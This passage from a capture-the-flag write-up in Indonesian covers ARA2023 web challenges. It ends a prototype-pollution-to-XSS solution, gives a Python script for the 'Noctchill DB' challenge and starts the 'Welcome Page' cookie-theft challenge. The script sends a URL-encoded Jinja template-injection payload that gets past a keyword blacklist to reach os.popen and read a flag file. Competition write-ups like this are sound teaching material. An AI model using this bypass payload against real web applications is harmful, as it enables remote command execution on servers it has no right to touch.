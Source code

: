 ![](https://i.imgur.com/vmSsUnW.png)

Flag: ARA2023{pr07otyp3_p0llUt10n_g4Dg3t_t0_g3t_XSS}

## Noctchill DB
### Description
Checkout my Noctchill Database Page.

http://103.152.242.116:6712/ Attachments

### Technical Review
Pada challenge ini kita akan diberikan url dan juga attachment. Challenge ini akan kita eksploit dengan SSTI, tapo ada beberapa blacklist yang harus kita bypass.

### Solution
Untuk challenge ini saya sudah membuat script untuk melakukan ssti dan membypass blacklist.

Berikut script yang saya gunakan.

```python 
import requests
from urllib.parse import quote
URL = "http://103.152.242.116:6712/"
# URL = "http://127.0.0.1:5000/"

def ssti(payload,param,url=URL):
    payload = quote(payload)
    res = requests.get(url+payload+param)
    return res.text


blacklist = ["\"", "'", "`", "|", " ", "[", "]", "+", "init", "subprocess", "config", "update", "mro", "subclasses", "class", "base", "builtins"]
payload = "{{self.__getattribute__(request.args.a).__getattribute__(request.args.b).__getitem__(request.args.c).__import__(request.args.e).popen(request.args.cmd).read()}}"
a = ssti(payload, "?a=__init__&b=__globals__&c=__builtins__&d=__import__&e=os&cmd=cat /flag_68b329da98.txt")
print(a)
```

![](https://i.imgur.com/6bGj781.png)

Flag: ARA2023{its_n0t_th4t_h4rd_r1ghT??}

## Welcome Page
### Description
Flag is on the admin cookie.

Link : http://103.152.242.116:8413/

Admin Bot: http://103.152.242.116:8414/
